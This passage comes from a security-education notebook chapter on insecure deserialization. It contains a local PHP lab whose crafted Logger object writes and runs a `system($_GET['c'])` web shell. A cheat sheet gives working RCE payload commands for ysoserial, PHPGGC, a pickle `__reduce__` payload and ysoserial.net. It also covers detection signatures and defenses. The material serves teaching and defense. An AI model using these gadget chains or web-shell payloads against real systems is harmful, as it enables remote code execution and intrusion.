   into objects with a recursive `merge`/`extend`/`clone` that follows `__proto__` lets an attacker set
   properties on `Object.prototype`, which every object then inherits. On its own it corrupts
   application logic (auth bypass, DoS); combined with a **gadget** — a later code path that reads a
   polluted property and passes it to a sink like `child_process.spawn`, a template engine, or
   `require` — it becomes RCE. This is why prototype pollution and deserialization are taught together.

```json
{ "__proto__": { "isAdmin": true } }
```



**Bug bounty framing:** prototype pollution is one of the most-rewarded modern JS classes precisely
because a single polluted property can silently change behaviour deep in the app. PortSwigger's Web
Security Academy has a dedicated prototype-pollution track (client- and server-side) that is the best
place to build this instinct.

## Part 10: Hands-On Lab — A Reproducible PHP POP Chain to RCE

This lab builds and fires a complete PHP object-injection chain end to end on your own machine. It is
fully self-contained — no external target — so it is safe and legal to run. You will (1) stand up a
tiny vulnerable app, (2) fingerprint the serialized cookie, (3) escalate with a simple property tweak,
then (4) build a real POP chain that writes a web shell, and (5) trigger RCE. Everything runs in a
throwaway directory.

### Step 0 — Environment

```bash
mkdir -p ~/deser-lab && cd ~/deser-lab
php -v      # any PHP 7.4+/8.x is fine; PHP ships on Kali. If missing:
# sudo apt update && sudo apt install -y php-cli
```

### Step 1 — The vulnerable application

Create `app.php`. It stores a serialized `Session` object in a cookie, trusts it back, and — crucially —
ships a `Logger` class whose `__destruct` writes a file. That `Logger` is our sink gadget.

```php
<?php
// app.php  — DELIBERATELY VULNERABLE. Lab use only.
class Session {
    public $username = "guest";
    public $isAdmin  = false;
}
class Logger {
    public $logfile = "/tmp/app.log";   // sink: file_put_contents target
    public $data    = "";               // sink: file_put_contents content
    public function __destruct() {
        file_put_contents($this->logfile, $this->data, FILE_APPEND);
    }
}

if (!isset($_COOKIE['session'])) {
    setcookie('session', base64_encode(serialize(new Session())));
    echo "Session initialised. Reload.\n";
    exit;
}

// VULNERABLE SINK: unserialize of attacker-controlled cookie, no integrity check.
$sess = unserialize(base64_decode($_COOKIE['session']));

if (is_object($sess) && ($sess->isAdmin ?? false)) {
    echo "Welcome, admin {$sess->username}!\n";
} else {
    echo "Hello, " . htmlspecialchars($sess->username ?? 'guest') . " (not admin)\n";
}
```

Serve it:

```bash
cd ~/deser-lab
php -S 127.0.0.1:8888 app.php &
# [1] serving on http://127.0.0.1:8888
```

### Step 2 — Fingerprint the cookie

```bash
# First request initialises and Set-Cookies the session; grab it.
curl -s -i http://127.0.0.1:8888/ | grep -i set-cookie
# set-cookie: session=Tzo3OiJTZXNzaW9uIjoyOntzOjg6InVzZXJuYW1lIjtzOjU6Imd1ZXN0IjtzOjc6ImlzQWRtaW4iO2I6MDt9

echo 'Tzo3OiJTZXNzaW9uIjoyOntzOjg6InVzZXJuYW1lIjtzOjU6Imd1ZXN0IjtzOjc6ImlzQWRtaW4iO2I6MDt9' | base64 -d
# O:7:"Session":2:{s:8:"username";s:5:"guest";s:7:"isAdmin";b:0;}
```

That decoded string is unmistakably a PHP serialized object (`O:` marker). We control it completely.

### Step 3 — Trivial privilege escalation (no gadget)

Flip `isAdmin` from `b:0` to `b:1`. The property count and string lengths don't change, so no length
math is needed:

```bash
NEW='O:7:"Session":2:{s:8:"username";s:5:"guest";s:7:"isAdmin";b:1;}'
COOKIE=$(printf '%s' "$NEW" | base64 -w0)
curl -s http://127.0.0.1:8888/ -H "Cookie: session=$COOKIE"
# Welcome, admin guest!
```

You just escalated to admin by editing serialized state — the essence of PortSwigger's "Modifying
serialized objects" lab.

### Step 4 — Build the POP chain payload (object injection → RCE)

Now weaponise the `Logger` sink. We craft a serialized `Logger` whose destructor writes a PHP web shell
into the web root, then serve it. Because `unserialize()` will instantiate *any* available class from
the blob — not just `Session` — we substitute a `Logger` object into the cookie:

```php
<?php
// build_payload.php — run with the SAME class defs available.
class Logger {
    public $logfile;
    public $data;
}
$p = new Logger();
$p->logfile = "/home/kali/deser-lab/shell.php";       // absolute path in our webroot
$p->data    = "<?php system(\$_GET['c']); ?>\n";
echo base64_encode(serialize($p)), "\n";
```

```bash
php build_payload.php
# Tzo2OiJMb2dnZXIiOjI6e3M6NzoibG9nZmlsZSI7czozMToiL2hvbWUva2FsaS9kZXNlci1sYWIvc2hlbGwucGhwIjtzOjQ6ImRhdGEiO3M6Mjg6Ijw/cGhwIHN5c3RlbSgkX0dFVFsnYyddKTsgPz4KIjt9
# (your path/lengths will differ — the tool computed them correctly)
```

Notice we let PHP compute the serialized string, so the byte-length prefixes are correct automatically.
Hand-editing would require recounting `s:<len>` for the path and payload — the classic footgun.

### Step 5 — Fire the chain and get RCE

```bash
PAY=$(php build_payload.php)
# Send the Logger blob as the session cookie. On script end, Logger::__destruct fires,
# writing shell.php into the lab directory.
curl -s "http://127.0.0.1:8888/" -H "Cookie: session=$PAY"
# Hello,  (not admin)      <-- the app doesn't recognise it as a Session; doesn't matter.

ls -l ~/deser-lab/shell.php
# -rw-r--r-- 1 kali kali 28 ... /home/kali/deser-lab/shell.php   <-- WRITTEN by __destruct

# The built-in PHP server executes .php in its docroot; hit the shell:
curl -s "http://127.0.0.1:8888/shell.php?c=id"
# uid=1000(kali) gid=1000(kali) groups=1000(kali)...
curl -s "http://127.0.0.1:8888/shell.php?c=uname%20-a"
# Linux kali 6.x ... x86_64 GNU/Linux
```

You went from "a base64 cookie" to arbitrary command execution using nothing but a class the app already
defined. Tear down the lab when done:

```bash
kill %1 2>/dev/null           # stop php -S
rm -rf ~/deser-lab            # remove the whole lab
```

**What to take from the lab:** the deserializer instantiated an attacker-chosen class (`Logger`) with
attacker-chosen properties, and its magic method (`__destruct`) reached a dangerous sink
(`file_put_contents`). Swap `file_put_contents` for `system`, `call_user_func`, or a multi-object chain
(Part 5) and the same mechanics produce RCE across every language in this chapter.

## Part 11: Finding These Bugs — A Testing Methodology

Deserialization is a *detection* problem as much as an exploitation one; the exploitation is well-tooled
once you've found the sink. A repeatable methodology:



Concrete steps and tips:

1. **Enumerate every place bytes cross into the app** and could be deserialized: session cookies,
   "remember me" tokens, hidden form fields (`__VIEWSTATE`), custom headers, API bodies, WebSocket
   frames, file uploads that get loaded (e.g. `.pkl` models, `.ser` files), and message-queue payloads.
2. **Decode aggressively.** Base64, URL-decode, gunzip, then look for the magic markers in Part 3. Burp
   Inspector, `CyberChef`, and the `Freddy` / `Java Deserialization Scanner` / `Hackvertor` Burp
   extensions automate this. Freddy specifically flags and helps exploit Java/.NET deserialization in
   requests.
3. **Try safe blind detection first.** For Java, send a `URLDNS` payload and watch Collaborator/
   `interactsh` for a DNS hit — it needs no gadget library and causes no code execution. For any
   language, a payload that forces an outbound DNS/HTTP callback (via a URL-fetching gadget) confirms the
   sink without RCE. This is both safer and more reliable than blindly firing RCE chains.
4. **Fingerprint dependencies.** Error stack traces, `/vendor/`, `composer.lock`, JS bundle contents,
   `Server`/framework headers, and known CVEs tell you which gadget chains might land. Try chains in
   order of likelihood.
5. **Escalate to a benign proof.** `id`, `hostname`, a DNS callback, or reading a non-sensitive file.
   Never run destructive commands, never pivot beyond scope, and capture just enough to prove the
   finding. On bug bounties, a Collaborator hit plus the request that caused it is usually sufficient
   evidence — spell out the impact in the report rather than demonstrating it destructively.

**CTF note:** deserialization is a staple of web CTF categories (picoCTF, HTB, THM). PHP challenges hand
you the source, so you can read the class definitions and build the exact POP chain by hand — great
practice for reading a real `composer` dependency's gadget potential.

## Part 12: Detection & Defense Angle

Everything above is offense. This consolidated section is how a blue team detects, prevents, and
responds to insecure deserialization — the material that turns a finding into a fix.

### Prevention — in priority order

1. **Don't deserialize untrusted data with a native object serializer.** The only fully reliable defense
   is architectural: never feed attacker-controllable bytes to `unserialize()` / `ObjectInputStream` /
   `pickle.loads` / `Marshal.load` / `BinaryFormatter`. Prefer **data-only formats** (JSON, Protocol
   Buffers, MessagePack) with schemas, parsed into plain data structures your code then validates —
   never into arbitrary typed objects.
2. **If you must deserialize objects, use an allow-list.** Restrict deserialization to a known-good set
   of classes and reject everything else *before* instantiation:
   - **Java:** use a **look-ahead `ObjectInputStream`** that overrides `resolveClass()` to allow only
     approved classes (Apache Commons IO `ValidatingObjectInputStream`, or the built-in
     `ObjectInputFilter` / `-Djdk.serialFilter=` allow-list introduced in JEP 290). Deny by default.
   - **PHP:** `unserialize($data, ['allowed_classes' => false])` (or an explicit array) forbids object
     instantiation, neutralising object injection.
   - **.NET:** abandon `BinaryFormatter` (Microsoft's own guidance); if using Json.NET keep
     `TypeNameHandling = None`; if polymorphism is unavoidable, use a strict `SerializationBinder`
     allow-list.
   - **Python:** don't unpickle untrusted data at all; if unavoidable, restrict globals via a custom
     `Unpickler.find_class` allow-list. Use `yaml.safe_load`, never `yaml.load` with the default loader.
3. **Integrity-protect any serialized blob that round-trips through the client.** If you must send
   serialized state to the client, sign it (HMAC with a server-only key) and verify the signature
   *before* deserializing, so tampered blobs are rejected up front. (Signing raises the bar but does not
   make deserializing a native format safe — an attacker with the key still gets RCE; allow-listing is
   still required.)
4. **Keep dependencies patched and minimal.** Most Java/PHP/.NET RCE chains exploit *library* gadgets
   (Commons Collections, Groovy, Monolog, `ObjectDataProvider`). Remove unused libraries; patch the
   ones you keep. Fewer gadgets on the classpath means fewer chains that land.
5. **Run with least privilege and egress control.** A deserialization RCE inherits the app's privileges;
   run the app as a low-privileged user, in a container/seccomp/AppArmor sandbox, with restricted
   outbound network egress so a URLDNS/JRMP callback and second-stage payloads are blocked.

### Detection — telemetry and signatures

| Signal | Where | What it indicates |
| --- | --- | --- |
| `rO0AB` / `AC ED 00 05` in requests | WAF, proxy, app logs | Java serialized data crossing a boundary |
| `AAEAAAD/////` in requests | WAF, app logs | .NET BinaryFormatter payload |
| `O:` / `Tzo` in cookies/params | app logs | PHP serialized object from client |
| pickle opcodes / `\x80\x04` | app logs, queue payloads | Python pickle from an untrusted source |
| `ClassNotFoundException`, unexpected class loads | app/JVM logs | Gadget chain attempting to load an unusual class |
| Web server process spawning `sh`/`cmd`/`powershell` | EDR, `auditd`, Sysmon | Deserialization → command execution |
| Outbound DNS/JRMP from an app server that shouldn't make them | network/DNS logs | Blind deserialization callback (URLDNS/JRMP) |

**Blue-team usage:** a WAF rule for `rO0AB` / `AAEAAAD/////` / pickle magic in inbound bodies and
cookies catches a lot of opportunistic scanning, and JEP 290 serialization filters plus EDR rules for
`java`/`w3wp`/`php-fpm` spawning shells catch the exploitation stage. **IR use case:** when triaging a
suspected deserialization RCE, pull the raw request bodies (not just URLs) from proxy/WAF logs, look for
the magic markers, and correlate with process-creation events on the app host — the serialized blob in
the request plus a child shell process is a clean, high-confidence story.

## Part 13: Real-World Impact, CVEs, and Where It Hides

Insecure deserialization is not academic — it underpins a long line of critical, widely-exploited CVEs:

- **Apache Struts** — several RCEs; the class became infamous partly through Struts and the 2017 Equifax
  breach lineage of "web framework RCE."
- **Oracle WebLogic** (e.g. CVE-2015-4852 and a long series after) — T3/IIOP Java deserialization RCEs,
  repeatedly weaponised by commodity crypto-miners and ransomware crews.
- **Apache Commons Collections** — not a CVE in itself but *the* gadget library behind a generation of
  Java RCEs (JBoss, WebSphere, Jenkins, Jira).
- **Jenkins** — multiple deserialization RCEs via its remoting/CLI.
- **Telerik UI `RadAsyncUpload`** (CVE-2019-18935) — .NET deserialization RCE, heavily exploited in the
  wild against ASP.NET sites.
- **ASP.NET ViewState / Exchange / SharePoint** — `__VIEWSTATE` `LosFormatter` deserialization RCE when
  `machineKey` is known or leaked (a recurring Exchange/SharePoint critical).
- **Python ML supply chain** — untrusted `pickle`/`torch` model files executing code on load, a
  now-mainstream concern that pushed the ecosystem toward `safetensors`.

The through-line: wherever a framework quietly rehydrates objects from a place an attacker can reach —
a cookie, a `ViewState`, a management protocol, a message queue, a model file — the deserialization
becomes a remote code execution primitive. When you audit an application, *map every rehydration point*
and ask "what happens if I control these bytes?"

## Part 14: Common Pitfalls & Gotchas

- **Wrong PHP length prefixes.** Editing a serialized string's contents without fixing its `s:<len>`
  prefix makes `unserialize()` return `false`. Let a script serialize for you, or recount bytes
  (including NULs in private/protected keys) carefully.
- **Forgetting NUL bytes in private/protected keys.** `\x00Class\x00prop` and `\x00*\x00prop` must
  include literal NUL bytes; typing a visible `*` won't work.
- **Assuming JSON is always safe.** Polymorphic type handling (Json.NET `TypeNameHandling`, Jackson
  default typing, `!!python` YAML tags, `@class`/`@type` hints) turns "just JSON/YAML" into object
  injection. Check the parser configuration, not just the format.
- **Firing RCE chains blind.** Leading with a destructive RCE payload on a live target is both risky and
  a poor test. Use `URLDNS`/DNS-callback detection first; it's safe, needs no gadget library, and
  reliably confirms the sink.
- **Wrong ysoserial chain for the classpath.** `CommonsCollections1` fails if the target has CC 4.x or a
  patched 3.x; match the chain to the actual dependency version. If unsure, `URLDNS` proves the bug even
  when you can't yet find an RCE chain.
- **`__wakeup` guard bypasses.** Some classes add a defensive `__wakeup` that resets fields; historically
  bugs (e.g. CVE-2016-7124) let attackers *skip* `__wakeup` by declaring more properties in the object
  header than are actually present. Know that guard methods have been bypassable.
- **Compression/encoding layers hiding the blob.** A base64 string starting `H4sI` (gzip) or `eJ`
  (zlib) must be decompressed before you'll see the serialized magic bytes. Don't conclude "not
  serialized" until you've peeled every layer.
- **Overwriting length when a chain needs `fast-destruct`.** In PHP some chains require the object to be
  destructed early; PHPGGC's `-f` flag exists for exactly this. If a chain "should" work but nothing
  fires, try the fast-destruct variant.

## Part 15: Final Revision / Summary

- **Serialization** flattens an object graph to bytes; **deserialization** rebuilds it. Native object
  formats (PHP `serialize`, Java `ObjectInputStream`, Python `pickle`, Ruby `Marshal`, .NET
  `BinaryFormatter`) reconstruct *typed objects* and run *lifecycle/magic methods*, which is what makes
  deserializing untrusted data dangerous. Data-only formats (JSON, protobuf) are far safer — unless
  polymorphic type handling is enabled.
- The vulnerability is **arbitrary class instantiation with attacker-controlled fields**, plus automatic
  invocation of magic methods (`__wakeup`/`__destruct`, `readObject`, `__reduce__`, `_load`,
  `OnDeserialized`). Chaining legitimate classes from a kick-off magic method to a dangerous sink is a
  **POP / gadget chain**.
- **Fingerprint on the wire** by magic markers: PHP `O:`/`Tzo`, Java `AC ED`/`rO0`, pickle `\x80`/`c..R.`,
  Ruby `\x04\x08`/`BAg`, .NET `AAEAAAD/////`, and JSON type hints `$type`/`@class`/`!!python`.
- **Tooling:** PHPGGC (PHP), ysoserial (Java, incl. `URLDNS` for safe blind detection), ysoserial.net
  (.NET incl. ViewState), pickle `__reduce__` payloads (Python), Marshal universal gadgets (Ruby),
  node-serialize / prototype-pollution gadgets (Node.js).
- **Impact** spans privilege escalation and object injection through to full RCE; even without an RCE
  gadget, controlled object graphs yield SSRF, arbitrary file read/write, auth bypass, and DoS.
- **Defense**, in order: don't deserialize untrusted native objects at all → use data-only formats → if
  you must, allow-list classes (JEP 290/`ObjectInputFilter`, PHP `allowed_classes`, .NET
  `SerializationBinder`, Python `find_class`) → integrity-protect client round-trips → patch/minimise
  dependencies → least privilege + egress control.

## Part 16: Cheat Sheet / Quick Reference

**Format magic markers**

| Format | Raw | Base64 prefix |
| --- | --- | --- |
| PHP | `O:` `a:` `s:` | `Tzo` `YTo` `czo` |
| Java | `AC ED 00 05` | `rO0` (`rO0AB`) |
| Python pickle | `\x80\x04` / `c..\n(..tR.` | `gAS` / `gAJ` |
| Ruby Marshal | `\x04\x08` | `BAg` |
| .NET BinaryFormatter | `00 01 00 00 00 FF FF FF FF` | `AAEAAAD/////` |
| .NET ViewState | `/wEP...` | `/wE` |
| gzip / zlib wrapper | — | `H4sI` / `eJ` |

**PHP serialize grammar:** `O:<len>:"Class":<n>:{ key;value; ... }` · `s:<len>:"str";` ·
`i:<int>;` · `b:<0|1>;` · `d:<float>;` · `a:<n>:{...}` · `N;` · private key `\x00Class\x00prop` ·
protected key `\x00*\x00prop`.

**PHP magic methods:** `__wakeup` (after load) · `__unserialize` · `__destruct` (GC) · `__toString`
(string context) · `__call`/`__get`.

**Tool one-liners**

```bash
# PHP — PHPGGC
./phpggc -l                                   # list chains
./phpggc -i Monolog/RCE1                       # inspect a chain
./phpggc -b -u Monolog/RCE1 system id          # base64+urlenc payload running id

# Java — ysoserial
java -jar ysoserial-all.jar                     # list chains
java -jar ysoserial-all.jar URLDNS "http://x.oastify.com" > u.bin   # SAFE blind detect
java -jar ysoserial-all.jar CommonsCollections6 'id' > cc6.bin      # RCE (needs CC3.1)
base64 -w0 cc6.bin                              # for cookie/param delivery

# Python — pickle RCE
python3 -c "import pickle,os,base64;print(base64.b64encode(pickle.dumps(type('R',(),{'__reduce__':lambda s:(os.system,('id',))})())).decode())"

# .NET — ysoserial.net
ysoserial.exe -f BinaryFormatter -g TypeConfuseDelegate -c "calc.exe"
ysoserial.exe -p ViewState -g ObjectDataProvider -c "cmd /c whoami" --validationkey=<hex> ...
```

**Defense quick list:** JSON/protobuf over native serializers · Java `ObjectInputFilter` /
`-Djdk.serialFilter` allow-list (JEP 290) · PHP `unserialize($d,['allowed_classes'=>false])` · .NET drop
`BinaryFormatter`, `TypeNameHandling=None` · Python `yaml.safe_load`, no untrusted `pickle` · HMAC-sign
client round-trips · patch & prune dependencies · least privilege + egress control.

## Part 17: Practice Labs & Resources

Train this chapter's exact skills on labs that actually exercise deserialization:

- **PortSwigger Web Security Academy — Insecure deserialization** (the definitive free track): "Modifying
  serialized objects" (PHP cookie tamper), "Modifying serialized data types", "Using application
  functionality to exploit insecure deserialization", "Arbitrary object injection in PHP", "Exploiting
  Java deserialization with Apache Commons" (ysoserial), "Exploiting PHP deserialization with a
  pre-built gadget chain" (PHPGGC), "Developing a custom gadget chain" (Java and PHP), and the
  documented-vs-blind ViewState-style challenges.
- **PortSwigger — Prototype pollution** track (client-side and server-side) for the Node.js angle in
  Part 9.
- **HackTheBox / TryHackMe:** rooms and boxes featuring Java/PHP deserialization and ViewState RCE (e.g.
  THM "Insecure Deserialisation" / OWASP Top 10 rooms; HTB machines tagged deserialization and
  `__VIEWSTATE`).
- **picoCTF / web CTF archives:** PHP `unserialize` source-review challenges where you build the POP
  chain by hand — ideal for cementing the grammar from Parts 4–5.
- **Tools to install and practise with:** `phpggc` (ambionics), `ysoserial` (frohoff), `ysoserial.net`,
  the Burp extensions **Java Deserialization Scanner** and **Freddy**, and `GadgetInspector` for
  discovering new Java chains in a target classpath.
- **Reference reading:** the OWASP "Deserialization Cheat Sheet", the Python `pickle` security note,
  Microsoft's `BinaryFormatter` obsolescence guidance, and Oracle's JEP 290 serialization filtering
  documentation.

The next chapter continues the Server-Side notebook's arc into further server-side attack surface; the
mental model you built here — *attacker-controlled bytes driving a privileged server-side operation* —
carries directly forward. Master the fingerprint markers and the kick-off→sink chain mindset, and
insecure deserialization stops being intimidating and becomes just another input you learn to read.

---

*Also on [Praneeth's portfolio](https://ping-praneeth.vercel.app/notebook/appsec-server-side/04-insecure-deserialization), with comments and the latest edits.*
